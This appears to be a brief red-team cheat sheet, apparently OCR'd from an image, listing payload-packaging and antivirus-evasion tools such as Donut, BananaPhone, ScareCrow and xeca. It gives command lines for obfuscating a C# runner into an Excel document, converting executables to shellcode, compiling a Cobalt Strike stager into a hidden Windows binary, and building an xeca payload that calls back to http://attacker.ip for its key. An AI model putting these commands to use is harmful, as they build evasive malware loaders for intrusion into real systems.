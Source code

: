- Donut
	- `EXCELntDonut -f CSRunner.cs --sandbox --obfuscate`
	- Convert EXE (such as from Scarecrow) into PIC shellcode)
		- `./donut -a 2 -f 7 -o donut\_payload.bin cmd.exe`
- BananaPhone
	- Generate 64-bit C# stager in Cobalt Strike
	- `cd BananaPhone/example/hideexample/banana`
	- `go generate .`
	- Copy byte array from stager into main.go
	- `env GOOS=windows GOARCH=amd64 go build -ldflags -H=windowsgui`
- Scarecrow
	- JavaScript
		- `./ScareCrow -I beacon.bin -Loader control -O access.js -domain test.com`
	- EXE
		- `./ScareCrow -I payload64.bin -Loader binary -domain acme.com`
- xeca
	- Save Powershell payload as a .ps1 file
	- `xeca powershell --payload cthulhu.ps1 --url http://attacker.ip
	- Execute "launch.txt", will call back to attacker for encryption key
- Limelighter
- Tiki Torch
- CactusTorch
- Sharpshooter